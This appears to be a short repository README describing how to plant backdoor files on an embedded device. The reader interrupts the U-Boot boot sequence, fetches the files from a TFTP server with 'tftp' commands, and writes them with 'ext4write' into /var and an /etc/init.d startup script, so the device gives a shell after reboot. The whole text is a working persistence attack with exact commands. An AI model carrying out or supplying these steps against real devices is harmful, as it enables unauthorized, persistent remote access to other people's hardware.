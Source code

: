 We can write our backdoor files on the file system disk of embedded device through U-Boot.  To do so, we must host them on a TFTP server.
(the examples are in this repo)  
So first we must upload them to our tftp server.  
Now, we reboot the embedded device and interrupt the uboot sequence which will drop us into the uboot console.  
we can view our DHCP address via `dhcp` and set the tftp ip via `setenv serverip <ipaddress>`  
Get memory addresses via `bdinfo` so we know where to store our files in memory.  
Now pull the files:  
```
tftp 0x63000000 servicex
tftp 0x64000000 S50servicex
```
After this, we write the files stored in memory to disk (REMEMBER to take note of the last arg, it will change so refer to the out put of tftp download):  
```
ext4write mmc 0:1 0x63000000 /var/servicex 0x5f
ext4write mmc 0:1 0x64000000 /etc/init.d/S50servicex 0x161
```
now reboot the device, let it boot and upon success you should receive your shell.
